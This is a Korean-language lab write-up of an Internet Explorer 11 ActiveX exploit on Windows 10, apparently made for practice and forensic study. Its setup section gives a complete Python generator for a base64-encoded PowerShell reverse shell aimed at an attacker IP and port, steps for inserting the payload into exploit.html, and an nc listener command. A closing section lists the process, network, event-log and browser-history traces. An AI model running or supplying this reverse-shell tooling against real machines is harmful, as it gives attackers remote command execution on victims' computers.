 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type     | OS              | Build     | IP              | App                              |
| :---     | :---            | :---      | :---            |:---                              |
| Victim   | Windows 10 1809 | 17763.379 | 192.168.108.137 | internet explorer 11.379.17763.0 |
| Attacker | Windows 10 1809 | 17763.379 | 192.168.0.32    | [exploit.html]() |

# **Setting**

페이로드 생성

```py
import sys
import base64

def help():
    print("USAGE: %s IP PORT" % sys.argv[0])
    print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
    exit()
    
try:
    (ip, port) = (sys.argv[1], int(sys.argv[2]))
except:
    help()

# payload from Nikhil Mittal @samratashok
# https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)

cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmdline)
```

![](images/2022-05-18-21-57-45.png)

Exploit Code에 생성된 페이로드 삽입

    base64로 encoding된 부분만 Exploit Code중 <!--Payload--> 부분에 삽입

세션 대기

```
nc64.exe -nvlp [reverse port] -s [reverse ip]
```

![](images/2022-05-18-21-59-20.png)


# **Exploit**

Victim이 페이로드가 삽입된 exploit.html에 접근한뒤 activex를 실행하면 Attacker가 Victim의 쉘 획득

![](images/2022-05-18-22-01-56.png)


# **etc**

process tree 확인

![](images/2022-05-18-22-02-08.png)

![](images/2022-05-18-22-02-16.png)
![](images/2022-05-18-22-02-19.png)

패킷 확인

![](images/2022-05-18-22-02-39.png)

이벤트뷰어(eventvwr) 확인

    응용 프로그램 및 서비스 로그 > Windows PowerShell

![](images/2022-05-18-22-03-04.png)

IE history에서 html확인

    %localappdata%\Microsoft\Windows\History

![](images/2022-05-18-22-04-11.png)

인터넷 옵션 > 고급 > 보안에서 "[내 컴퓨터]에 있는 파일에서 액티브 콘텐츠가 실행되는 것을 허용"을 체크하면 activex 실행을 묻지않고 바로 실행

![](images/2022-05-18-22-04-59.png)